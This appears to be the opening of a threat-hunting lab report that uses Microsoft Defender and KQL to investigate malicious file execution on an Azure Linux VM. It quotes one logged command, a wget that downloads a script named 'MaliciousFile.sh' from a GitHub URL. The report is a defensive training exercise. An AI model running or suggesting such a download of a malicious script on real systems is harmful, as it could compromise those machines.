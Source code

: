 <img width="400" src="https://github.com/user-attachments/assets/cf2bfe69-30da-4a79-aaa4-6d2f0509ecf8"/>

# Threat Hunt Report: Malicious File Execution

## Platforms and Languages Leveraged
- Linux (Ubuntu 22.04) Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Bash

## Scenario

Management has raised concerns about the increasing risk of malicious file execution within the organization. It has been noted that threat actors are leveraging social engineering tactics to trick employees into downloading or executing files that appear legitimate but are in fact malicious. These files, once executed, can initiate unauthorized actions on the network, such as establishing backdoors, escalating privileges, or exfiltrating sensitive data. While no direct incidents have been reported, there is a growing awareness of the potential for an attack, and management has requested a proactive review of systems to identify any evidence of malicious file execution and address potential security gaps.

The objective is to detect and analyze the logs, assess the potential security risks across multiple systems, and ensure that no malicious code is being executed.

## High-Level IoC Discovery Plan

- **Check `DeviceProcessEvents`** for suspicious executions of outdated software or any software associated with known vulnerabilities.
- **Check `DeviceNetworkEvents`** for unusual network activity made by the outdated software or suspicious outbound connections.
- **Check `DeviceFileEvents`** for modifications to software installation files, directories, and configuration files related to outdated software.

---

## Steps Taken

### 1. Searched the `DeviceProcessEvents` Table

Searched for processes running on the network, looking for any machines that were downloading or executing malicious processes. Some suspicious traffic was discovered and the scope of the search was narrowed down to specific device: `DeviceName` **"thlinux.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net"** ran by `AccountName` **"baddog"**. 

Further narrowed down the search criteria to the `AccountName` **"baddog"**. 

At **Feb 4, 2025 10:14:39 AM**, the user **"baddog"** executed the following command on the device **"thlinux.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net"**:
```
wget https://raw.githubusercontent.com/Goodka7/Threat-Hunting-Malicious-Execution-/refs/heads/main/resources/MaliciousFile.sh
```
